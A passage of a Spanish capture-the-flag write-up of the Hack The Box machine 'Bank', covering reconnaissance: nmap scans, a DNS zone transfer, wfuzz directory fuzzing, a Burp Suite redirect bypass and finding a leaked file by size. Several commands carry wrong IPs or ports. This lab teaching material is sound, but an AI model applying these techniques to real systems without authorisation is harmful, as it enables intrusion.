<h3 style="text-align:center">DESCRIPCIÓN</h3><hr>
En este post realizaremos el write up de la máquina Bank. Tocaremos los conceptos de Apache, Ataque de transferencia de zona, Information Leakage, Abusing File Upload [RCE], Abusing SUID Binary, Abusing writeable Binary, es una máquina facil que tiene dos maneras de escalar privilegios."


<h3 style="text-align:center">INDICE</h3><hr>

- [Reconocimiento](#fase-de-reconocimiento)
    - [Enumeración de puertos](#enumeracion-de-puertos)
    - [Enumeración de servicios](#enumeracion-de-servicios)
    - [Ataque de transferencia de zona](#transferenciadezona)
    - [Fuzzing](#fuzzing)
- [Explotación](#explotacion)
    - [Subida de archivos](#subidarchivos)
- [Escalada de privilegios](#escalada-de-privilegios)
    - [Escalada abusando de persmisos SUID](#suid)
    - [Flags](#flags)
    - [Ezcalada abusando de archivos con capacidad de escritura](#escritura)
- [Autores y referencias](#autores-y-referencias)


<h3 style="text-align:center" id="fase-de-reconocimiento">RECONOCIMIENTO</h3><hr>


- El objetivo principal de la etapa de reconocimiento es obtener una visión general de la infraestructura, sistemas, aplicaciones y posibles puntos débiles de la organización o sistema que se va a someter a la prueba de penetración. Esta información es esencial para planificar y ejecutar el resto del proceso de pentesting de manera más efectiva.

- Durante la etapa de reconocimiento, el equipo de pentesting puede realizar diferentes acciones y técnicas, que incluyen:

1.`Búsqueda de información pública:` Se recopila información de dominios, subdominios, direcciones IP, registros de DNS, información de contacto de la empresa, etc., que está disponible públicamente a través de fuentes como el sitio web de la empresa, registros WHOIS, redes sociales, motores de búsqueda, entre otros.

2.`Escaneo de red:` Se utilizan herramientas de escaneo de puertos y servicios para identificar los sistemas en línea y los puertos abiertos en el objetivo. Esto ayuda a tener una idea de la infraestructura de red y los servicios disponibles.

3.`Enumeración de servicios:` Una vez identificados los servicios y puertos abiertos, se intenta obtener información más detallada sobre los servicios, como las versiones de software, para determinar si existen vulnerabilidades conocidas asociadas con esos servicios.

4.`Búsqueda de subdominios y directorios ocultos:` Se busca información adicional sobre posibles subdominios, directorios ocultos o páginas web no enlazadas públicamente, lo que podría revelar puntos de entrada adicionales o información sensible.

5.`Análisis de arquitectura de red:` Se investiga la topología de la red para comprender la relación entre diferentes sistemas y cómo se conectan, lo que ayuda a identificar posibles rutas para movimientos laterales.

6.`Búsqueda de vulnerabilidades conocidas:` Se investigan bases de datos de vulnerabilidades conocidas y bases de datos de exploits para identificar posibles vulnerabilidades que puedan existir en el software o servicios utilizados por el objetivo.

- Lo primero que vamos hacer es un ping a la maquina victima `ping -c 1 10.10.10.29`
  `ping:` Es el comando utilizado para enviar solicitudes de eco (ping) a una dirección IP específica para verificar la conectividad de red y la latencia de la conexión.
  `-c 1:` Es una opción que se utiliza para especificar el número de solicitudes de eco que se enviarán. En este caso, se envía solo una solicitud (-c 1).
  `10.10.10.29:` Es la dirección IP del host o máquina que será objeto del comando ping.

```ruby
ping -c 1 10.10.10.29
PING 10.10.10.29 (10.10.10.29) 56(84) bytes of data.
64 bytes from 10.10.10.29: icmp_seq=1 ttl=63 time=97.0 ms

--- 10.10.10.29 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 97.008/97.008/97.008/0.000 ms
```
En este caso, el TTL=63 indica que es una máquina Linux.

<h3 style="text-align:center" id="enumeracion-de-puertos">ENUMERACIÓN DE PUERTOS</h3><hr>


- Realizamos un escaneo de puertos usando la herramienta `nmap`:

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.29 -oG scanPorts`

Veamos el significado de cada opción utilizada en el comando:

- `nmap`: Es el comando para ejecutar la herramienta de escaneo de puertos `nmap`.

- `-p-`: Esta opción indica que se deben escanear todos los puertos, es decir, desde el puerto 1 hasta el puerto 65535.

- `--open`: Filtra los resultados del escaneo para mostrar solo los puertos que están abiertos, es decir, aquellos que responden a la solicitud de escaneo.

- `-sS`: Indica un escaneo de tipo "SYN scan". Este tipo de escaneo envía paquetes SYN (sincronización) a los puertos y analiza las respuestas para determinar si están abiertos, cerrados o filtrados por firewall.

- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes. En este caso, se envían al menos 5000 paquetes por segundo.

- `-vvv`: Habilita el modo de salida muy detallado, lo que significa que se mostrarán niveles de verbosidad muy altos para obtener información detallada del escaneo.

- `-n`: Indica que no se realice la resolución de DNS para las direcciones IP, lo que acelera el escaneo.

- `-Pn`: Esta opción indica que no se realice el "ping" para determinar si los hosts están en línea o no. Se ignoran las respuestas del ping y se escanea directamente.

- `10.10.10.29`: Es la dirección IP del objetivo que será escaneado.

- `-oG scanPorts`: Especifica que se debe guardar la salida del escaneo en un formato "grepable" (formato de texto plano) con el nombre de archivo "scanPorts".

```ruby
❯ nmap -p- --open -sS -min-rate 5000 -n -Pn 10.10.10.29 -oG scanPorts
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 11:56 -05
Nmap scan report for 10.10.10.29
Host is up (0.087s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.30 seconds
```
<br>
- Escaneamos al objetivo con los scripts básicos de reconocimiento de nmap, apuntando a los puertos abiertos en busca de más información.
- Los resultados incluirán información sobre los servicios que se están ejecutando en los puertos escaneados y sus versiones correspondientes.

`nmap -sCV -p21,80 10.10.10.26 -oN targeted`


```ruby
❯ nmap -sC -sV -p22,53,80 10.10.10.29 -oN targeted
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-26 12:00 -05
Nmap scan report for 10.10.10.29
Host is up (0.083s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08eed030d545e459db4d54a8dc5cef15 (DSA)
|   2048 b8e015482d0df0f17333b78164084a91 (RSA)
|   256 a04c94d17b6ea8fd07fe11eb88d51665 (ECDSA)
|_  256 2d794430c8bb5e8f07cf5b72efa16d67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.7 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.60 seconds
```
1. Puerto 22/tcp: Indica que el puerto TCP 22 está abierto y está respondiendo al servicio SSH. El puerto 22 es el puerto predeterminado para el servicio SSH, `OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)`: Esta línea indica la versión del software SSH que se está ejecutando en el servidor. En este caso, el servidor está utilizando OpenSSH versión 6.6.1p1, específicamente la versión 2ubuntu2.8 para Ubuntu Linux.
    
2. Puerto 53/tcp: ISC BIND (Internet Systems Consortium Berkeley Internet Name Domain) es una implementación de software de código abierto del servicio de nombres de dominio (DNS) para el sistema operativo Unix y sus derivados. El DNS es el sistema que se encarga de traducir los nombres de dominio legibles por humanos (como example.com) en direcciones IP numéricas que las computadoras pueden entender.

3. Puerto 80/tcp: 1. Indica que el puerto TCP 80 está abierto y responde al servicio HTTP, que generalmente es utilizado por los servidores web para servir páginas web.
    `Apache httpd 2.4.7 ((Ubuntu))`: Esta línea indica la versión del servidor web Apache que se está ejecutando en el servidor. En este caso, el servidor web está utilizando Apache versión 2.4.7 y está instalado en un sistema operativo Ubuntu, la pagina que vemos en la plantilla defeault de ubuntu.



<h3 style="text-align:center" id="enumeracion-de-servicios">ENUMERACIÓN DE SERVICIOS</h3><hr>

- Hacemos un escaneo con whatweb `whatweb http://10.10.10.5`

```ruby
❯ whatweb http://10.10.10.29
http://10.10.10.29 [200 OK] Apache[2.4.7], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.7 (Ubuntu)], IP[10.10.10.29], Title[Apache2 Ubuntu Default Page: It works]
```

- En esta máquina se está aplicando Virtual Hosting

- Contemplamos en el /etc/hosts el siguiente dominio bank.htb

```ruby
**# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopbac
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.10.29 bank.htb

```


- Vamos a probar si puedo escribir archivos en en ftp 
- Como el puerto 53 esta abierto, voy a lanzar solicitudes DNS , lo puedo hacer don `dig`

```ruby
❯ dig @10.10.10.29 bank.htb mx
;; communications error to 10.10.10.29#53: timed out

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> @10.10.10.29 bank.htb mx
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 59240
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;bank.htb.			IN	MX

;; AUTHORITY SECTION:
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800

;; Query time: 86 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (UDP)
;; WHEN: Wed Jul 26 13:17:48 -05 2023
;; MSG SIZE  rcvd: 79
```
- Vemos el subdominio chris.bank.htb

<h3 style="text-align:center" id="transferenciadezona">ATAQUE DE TRANSFERENCIA DE ZONA</h3><hr>

- Otra cosa que podemos hacer es  un ataque de transferencia de zona (AXFR – Full Zone Transfer)

```ruby
❯ dig @10.10.10.29 bank.htb axfr

; <<>> DiG 9.18.12-1~bpo11+1-Debian <<>> @10.10.10.29 bank.htb axfr
; (1 server found)
;; global options: +cmd
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
bank.htb.		604800	IN	NS	ns.bank.htb.
bank.htb.		604800	IN	A	10.10.10.29
ns.bank.htb.		604800	IN	A	10.10.10.29
www.bank.htb.		604800	IN	CNAME	bank.htb.
bank.htb.		604800	IN	SOA	bank.htb. chris.bank.htb. 2 604800 86400 2419200 604800
;; Query time: 89 msec
;; SERVER: 10.10.10.29#53(10.10.10.29) (TCP)
;; WHEN: Wed Jul 26 13:21:38 -05 2023
;; XFR size: 6 records (messages 1, bytes 171)
```

```bash
❯ ping -c 1 chris.bank.htb
ping: chris.bank.htb: Nombre o servicio desconocido
```
- Como vemos que tampoco nos resuelve, vamos a contemplar el subdominio chris.bank.htb en el /etc/hosts 

```ruby
# Host addresses
127.0.0.1  localhost
127.0.1.1  parrot
::1        localhost ip6-localhost ip6-loopback
ff02::1    ip6-allnodes
ff02::2    ip6-allrouters
# Others

10.10.10.29 bank.htb
10.10.10.29 chris.bank.htb
```

```ruby
❯ ping -c 1 chris.bank.htb
PING chris.bank.htb (10.10.10.29) 56(84) bytes of data.
64 bytes from bank.htb (10.10.10.29): icmp_seq=1 ttl=63 time=88.3 ms

--- chris.bank.htb ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 88.331/88.331/88.331/0.000 ms

```


- Nos resuelve a la pagina inicial que nos arrojaba la ip 10.10.10.29

- Realizamos Fuzzing a  la ruta http://bank.htb/login.php para ver si encontramos mas rutas.
`wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bank.htb/FUZZ.php` 
El comando que proporcionas es una línea de código utilizada en la herramienta "wfuzz", que es una herramienta de enumeración de directorios y fuerza bruta en aplicaciones web. A continuación, explicaré cada uno de los parámetros y opciones utilizados en el comando:

1. `wfuzz`: Es el nombre del comando o programa que se está ejecutando.

2. `-c`: se utiliza para habilitar la coloración de la salida en la terminal. Con esta opción activada, los resultados de las solicitudes se mostrarán con colores para una mejor legibilidad y comprensión de los resultados.

3. `--hc=404`: Esta opción especifica que se debe ocultar (no mostrar en la salida) las respuestas con código de estado 404 (no encontrado). Los códigos de estado 404 son comúnmente utilizados cuando una página o recurso no existe.

4. `-t 200`: se utiliza para especificar el número de hilos (threads) que se utilizarán para realizar las solicitudes concurrentes. Al establecer `-t 200`, estás indicando que se utilizarán 200 hilos para realizar las solicitudes de manera simultánea y acelerar el proceso de enumeración de directorios.

5. `-w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt`: Esta opción especifica el archivo de lista de palabras (wordlist) que se utilizará para realizar el ataque de fuerza bruta. En este caso, el archivo de lista de palabras es "directory-list-2.3-medium.txt" ubicado en la ruta "/usr/share/seclists/Discovery/Web-Content/".

6. `http://bank.htb/FUZZ.php`: Esta es la URL objetivo que se está atacando. La cadena "FUZZ" se utilizará como un marcador que wfuzz reemplazará por cada palabra de la lista de palabras del paso anterior para realizar la enumeración de directorios. En este caso, se probarán diferentes palabras del archivo wordlist como parte del nombre del archivo PHP en la URL.

```ruby
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bank.htb/FUZZ.php
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000015:   302        188 L    319 W      7322 Ch     "index"                                                                                                                
000000013:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000014:   403        10 L     30 W       279 Ch      "http://bank.htb/.php"                                                                                                 
000000001:   302        188 L    319 W      7322 Ch     "# directory-list-2.3-medium.txt"                                                                                      
000000003:   302        188 L    319 W      7322 Ch     "# Copyright 2007 James Fisher"                                                                                        
000000007:   302        188 L    319 W      7322 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                      
000000012:   302        188 L    319 W      7322 Ch     "# on at least 2 different hosts"                                                                                      
000000011:   302        188 L    319 W      7322 Ch     "# Priority ordered case-sensitive list, where entries were found"                                                     
000000010:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000009:   302        188 L    319 W      7322 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000005:   302        188 L    319 W      7322 Ch     "# This work is licensed under the Creative Commons"                                                                   
000000008:   302        188 L    319 W      7322 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                                                           
000000006:   302        188 L    319 W      7322 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                        
000000004:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000002:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000053:   200        51 L     125 W      1974 Ch     "login"                                                                                                                
000000055:   302        83 L     186 W      3291 Ch     "support"                                                                                                              
000001225:   302        0 L      0 W        0 Ch        "logout"                                                                                                               
000045240:   403        10 L     30 W       279 Ch      "http://bank.htb/.php"                                                                                                 
^C /usr/lib/python3/dist-packages/wfuzz/wfuzz.py:80: UserWarning:Finishing pending requests...

Total time: 186.3818
Processed Requests: 187242
Filtered Requests: 187223
Requests/sec.: 1004.615
```
- Vamos a ver la ruta support que tiene un codigo de estado 302, recordemos que cuando un servidor web devuelve un código de estado 302, está indicando que la página solicitada ha sido temporalmente movida a otra ubicación o URL. El servidor también proporcionará la nueva URL en la cabecera de la respuesta, lo que permite al cliente (navegador web u otro cliente HTTP) redirigirse automáticamente a la nueva ubicación.



- Nos vuelve a dirigir a la página de inicio de sesión, pero ojo, no siempre el hecho de que nos redirija a otra página significa que todo esté bien montado, asi que vamos aplicar el Abusing no redirect, para ello vamos abrir Burpsuite como usuario no privilegiado.

`BurpSuiteCommunity &> /dev/null & disown`

- Esta es la primera forma para interceptar la pagina support 
Interceptamos la petición http://bank.htb/support.php

- La idea es cambiar el código de respuesta a 200 OK, para hacerlo de manera automática en Burpsuite, haremos los siguientes ajustes:

- Vamos a opciones:



- De esta manera cambiamos el cogido de estado de manera automática.



- 2da Forma: 

- Vamos a enumerar directorios con wfuzz pero que no sean php:

<h3 style="text-align:center" id="fuzzing">FUZZING</h3><hr>


```php
wfuzz -c --hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt http://bank.htb/FUZZ
```

```ruby
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://bank.htb/FUZZ
Total requests: 220560

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                
=====================================================================

000000004:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000007:   302        188 L    319 W      7322 Ch     "# license, visit http://creativecommons.org/licenses/by-sa/3.0/"                                                      
000000002:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000008:   302        188 L    319 W      7322 Ch     "# or send a letter to Creative Commons, 171 Second Street,"                                                           
000000006:   302        188 L    319 W      7322 Ch     "# Attribution-Share Alike 3.0 License. To view a copy of this"                                                        
000000009:   302        188 L    319 W      7322 Ch     "# Suite 300, San Francisco, California, 94105, USA."                                                                  
000000010:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000013:   302        188 L    319 W      7322 Ch     "#"                                                                                                                    
000000011:   302        188 L    319 W      7322 Ch     "# Priority ordered case-sensitive list, where entries were found"                                                     
000000014:   302        188 L    319 W      7322 Ch     "http://bank.htb/"                                                                                                     
000000003:   302        188 L    319 W      7322 Ch     "# Copyright 2007 James Fisher"                                                                                        
000000005:   302        188 L    319 W      7322 Ch     "# This work is licensed under the Creative Commons"                                                                   
000000012:   302        188 L    319 W      7322 Ch     "# on at least 2 different hosts"                                                                                      
000000001:   302        188 L    319 W      7322 Ch     "# directory-list-2.3-medium.txt"                                                                                      
000000291:   301        9 L      28 W       304 Ch      "assets"                                                                                                               
000002190:   301        9 L      28 W       301 Ch      "inc"                                                                                                                  
000000164:   301        9 L      28 W       305 Ch      "uploads"                                                                                                              
000045240:   302        188 L    319 W      7322 Ch     "http://bank.htb/"                                                                                                     
000095524:   403        10 L     30 W       288 Ch      "server-status"                                                                                                        
000192709:   301        9 L      28 W       314 Ch      "balance-transfer"                                    
```
- Vemos cada uno de los directorios, en este caso vamos a balance-transfer:



- Encontramos una serie de archivos que tienen diferentes tipos de tamaños, lo que vamos hacer es filtrar por los archivos hasta ver un peso que no sea el convencional.

```ruby
curl -s -X GET "http://bank.htb/balance-transfer/" | html2text | awk '{print $3 " " $5}' > output 
```
- Voy a desglosar cada parte del comando:

1. `curl -s -X GET "http://bank.htb/balance-transfer/"`: La herramienta "curl" es una utilidad de línea de comandos que permite realizar solicitudes HTTP. En este caso, "-s" le indica a curl que ejecute en modo silencioso, es decir, no mostrará mensajes o progreso en la salida. La opción "-X GET" especifica que se realiza una solicitud GET a la URL "[http://bank.htb/balance-transfer/](http://bank.htb/balance-transfer/)".
    
2. `| html2text`: El símbolo de tubería `|`se utiliza para redirigir la salida del comando anterior (curl) al siguiente comando llamado "html2text". "html2text" es una utilidad que convierte contenido HTML en texto plano, eliminando las etiquetas HTML y mostrando solo el texto.
    
3. `| awk '{print $3 " " $5}'`: Nuevamente, se utiliza el símbolo de tubería  para redirigir la salida del comando anterior (html2text) al comando "awk". "awk" es un potente lenguaje de procesamiento de texto que permite realizar acciones sobre los datos de entrada. En este caso, el comando "awk" está configurado para imprimir la tercera columna y la quinta columna de la salida de "html2text". Esto extraerá información específica del texto convertido desde HTML.
    
4. `> output`: Finalmente, el símbolo > se utiliza para redirigir la salida del comando anterior (awk) a un archivo llamado "output", que se ubicará en el directorio de trabajo actual.



```ruby
❯ cat output | sed '/^\s*$/d' | grep -vE "584|585|583"
0d64f03e84187359907569a43c83bddc.acc 582
052a101eac01ccbf5120996cdc60e76d.acc 582
09ed7588d1cd47ffca297cc7dac22c52.acc 581
20fd5f9690efca3dc465097376b31dd6.acc 582
70b43acf0a3e285c423ee9267acaebb2.acc 582
346bf50f208571cd9d4c4ec7f8d0b4df.acc 582
941e55bed0cb8052e7015e7133a5b9c7.acc 581
10805eead8596309e32a6bfe102f7b2c.acc 582
68576f20e9732f1b2edc4df5b8533230.acc 257
acb4ccb8eeb778b614a993e7c3199e5b.acc 582
